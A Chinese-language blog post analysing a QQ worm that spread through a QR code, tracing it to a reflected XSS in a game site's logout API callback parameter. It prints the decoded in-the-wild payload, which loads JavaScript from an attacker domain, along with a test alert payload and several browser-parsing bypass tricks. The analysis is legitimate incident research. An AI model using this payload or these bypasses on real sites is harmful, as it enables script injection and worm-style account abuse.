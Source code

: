 ```yaml
---
layout: post
featured-img: worm
title: QQ蠕虫二维码分析
summary: <黄钻专属私密相册>蠕虫病毒二维码
---
```


**前言**

前几天看到了至少两位同学因为扫描这个二维码，而后即发送二维码给所有好友，以蠕虫形式传播



***

解析二维码，获得网址：

`http%3A%2f%2fi.ali213.net%2fapi.html%3Faction%3Dlogout%26callback%3D%00%00%00%00%00%00%00%3CscripT%2fsrc%3D%2f%2fccccccccccc.nekeda.cn%2ftemplate%2fapp.js%3E%3C%2fscripT%3E%3C%21--`

URL decode得到`http://i.ali213.net/api.html?action=logout&callback=%00%00%00%00%00%00<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

whois查询`ali213.net`域名，为游侠游戏网站，看来是调用了正经网站的API



***

访问API：`http://i.ali213.net/api.html?action=logout`

```html
{
	"status":1,
	"msg":"\u767b\u51fa\u6210\u529f",
	"data":{
		"script":"<script type=\"text\/javascript\"src=\"http:\/\/game.ali213.net\/api\/uc.php?time=1534038380&code=f755W9lt6o%2BqYgP7noRqshLJkkaC%2B5tatuf93A%2BStzaG4RDk%2Bc8tvBDMQl%2BFMy60io72HumXtCjNwgVsyA\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/shop.ali213.com\/api\/uc.php?time=1534038380&code=52dbb8X%2Fn%2B1bF%2BRO8srsZBgjLnUcoQ1ZmNOsXsfx3iQAYl3HWz14r0vKPQiWJoXAqqx5FT4BvlTR35Otug\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/passport.ali213.net\/api\/uc.php?time=1534038380&code=f003M1FK18joxKRVW8wD7q06z6PLqWLHnzOpVSNEXaAqZBZS%2B4i7oMEMi1zPmHbQqhmeqELwecnjeLAkOQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/plugin.ali213.net\/api\/uc.php?time=1534038380&code=3358a%2FEySHeMPKTgQfm0ikkqPMDIjun4EUoy0mtcUu0%2BZAuIxOSuQGVBvpoVTq1P1D6s2JGCRLTdXak4MQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/i.ali213.net\/api\/uc.html?time=1534038380&code=c0ecTf31BWZivvpSCfIz2Vy9pu7aEmIf1a6FGU16c%2BrNtkvNBBFs22E%2Fbvr6CCSyX2xb7vt2ZxazvzsCSQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/api.ali213.net\/api\/uc.php?time=1534038380&code=6b3cTo0z9viiFnow3HTKykapqEpk%2FejYeoC5BKYRNsYtK8wh%2FlO71%2BJk0NxrugQw5W%2F2kn4VjHQdVER0tQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/3g.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6095414c49fa4bad204bb189e405aebe\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/game.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6fc3efe1ae20847e0326173dc5b7ee7c\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/zhidao.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=3a12ba4fb7d01c0e1de8ec8510265356\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/pk.im.iyouxia.com\/aliSSO.php?action=logout&time=1534038381&signature=f283a40aef2e97d83719e57ed3293ed9\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/ol.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=54fd6efba68f7aa98248b4fec552b9a2\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/comment.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=424ad74c51c8582bdf9061b23f3c4215\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/wan.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=0bc3326cd131495296a095bac06dfc3a\" reload=\"1\"><\/script>"
	}
}
```

得到正常的log out json数据



***

接着添加`callback`参数：

`http://i.ali213.net/api.html?action=logout&callback=%3Cscript%3Ealert(0);%3C/script%3E`

![](https://upload-images.jianshu.io/upload_images/11356161-1bd0313bde07798d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

回调的参数改写代码格式为：

```html
callback([json]{
	"xxx":"xxx",
	"xxx":"xxx"
})
```

所以这样的接口就相当于是一个可由攻击者写入任意`js`代码的页面，从而发起`xss`



***

**XSS** `payload`：

`<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

执行后的页面代码为

```html
<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--({"status":1,"msg":"\u767b\u51fa\u6210\u529f","data":..........
.....
```

+ `/src`

  + FireFox的解析器会将标签后的非字母非数字字符认为是一个空白或无效字符
  + Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间 ，如`<body onload@#*!$=alert(0)>`
+ `//xxx.com`
  + 协议解析绕过。在FireFox下无效
+ `<!--`
  + 注释后面的json部分，有点多余，不注释也一样执行



***

whois查询域名`nekeda.cn`的注册人：魏xx，名下有4600+域名记录

一级域名未绑定IP，二级域名解析到一个`IIS 7`服务器，访问蠕虫`js`代码，来晚了已经404了。

猜想是利用`webQQ`协议的`CSRF`，获取所有好友名单并发送二维码